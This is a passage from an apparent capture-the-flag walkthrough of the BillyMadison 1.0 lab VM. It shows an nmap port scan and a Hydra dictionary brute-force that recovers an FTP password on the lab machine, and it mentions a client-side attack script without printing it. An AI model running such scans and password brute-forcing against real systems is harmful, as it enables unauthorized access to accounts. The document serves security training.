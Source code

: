 sure Billy or Veronica know.  I didn't see it in Billy's FTP folders, but didn't have time to
check Veronica's.

-EG
{% endhighlight %}

All right!  Another video to watch and Eric's backdoor!  But some bad news, his privsec exploits now fail (thinking maybe they need to be modified to a different target?) and he lost the paper!  Go figure...

Also an interesting note, he mentions reusing his his wifi password as his login.  I wonder if that would be one of the ROT passwords earlier...

Watching the video results in Billy saying Eric's kid will be a `soccer player`.  Now to send an email.  I modified my previous client side attack script to just send the text and shipped it out.

I once again checked the `edb.txt` file on the SMB share now to find it said "OPEN".  Excellent, now where is it?  Not wanting to get locked out I ran the following nmap:

{% highlight bash %}
root@kali:~/evidence/billymadison1.0# nmap -p0-22,24-65535 192.168.244.157

Starting Nmap 7.25BETA2 ( https://nmap.org ) at 2016-09-14 15:17 MDT
Nmap scan report for BM (192.168.244.157)
Host is up (0.00024s latency).
Not shown: 65525 filtered ports
PORT     STATE  SERVICE
21/tcp   open   ftp
22/tcp   open   ssh
69/tcp   open   tftp
80/tcp   open   http
137/tcp  closed netbios-ns
138/tcp  closed netbios-dgm
139/tcp  open   netbios-ssn
445/tcp  open   microsoft-ds
1974/tcp open   drp
2525/tcp open   ms-v-worlds
MAC Address: 00:0C:29:EE:12:4F (VMware)

Nmap done: 1 IP address (1 host up) scanned in 104.14 seconds
root@kali:~/evidence/billymadison1.0# -
{% endhighlight %}

Success! new port opens on `1974`.  I attempted to log in as eric using the ROT passwords...



...and FAILURE.  Damn ok, what did I miss.  Eric mentioned he looked at veronica's FTP but not billy's.  Lets go ahead and look at Veronica's FTP.  Attempting to login with `veronica:012987veronica` but that fails.  Ok lets try some hydra action!

{% highlight bash %}
root@kali:~/evidence/billymadison1.0# hydra -l veronica -P veronica.txt 192.168.244.157 ftp
Hydra v8.2 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2016-09-16 14:41:55
[DATA] max 16 tasks per 1 server, overall 64 tasks, 773 login tries (l:1/p:773), ~0 tries per task
[DATA] attacking service ftp on port 21
[21][ftp] host: 192.168.244.157   login: veronica   password: babygirl_veronica07@yahoo.com
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2016-09-16 14:42:14
root@kali:~/evidence/billymadison1.0# -
{% endhighlight %}
